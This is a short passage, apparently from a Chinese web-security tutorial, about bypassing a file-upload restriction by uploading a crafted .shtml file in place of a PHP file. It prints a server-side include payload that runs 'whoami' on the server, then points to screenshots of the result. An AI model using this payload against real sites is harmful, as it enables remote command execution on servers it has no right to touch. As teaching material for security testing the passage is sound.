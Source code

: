 这里我们是无法上传正常的PHP，所以就上传个构造好的shtml文件[![](assets/1704850598-05e2cd70fb3b2b8e024eebf3065eafb3.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/SmLqa6VkfhMflauz.png)

```plain
<!--#exec cmd="whoami" -->
```

上传后，访问  
[![](assets/1704850598-369826b6b6fd9a1c793a5498c312d239.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/MuVH29LcolYYpW7a.png)  
[![](assets/1704850598-6380513f01541bd3ef09cf988ab3e8f9.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/UQWLqvW8bk48OtJX.png)
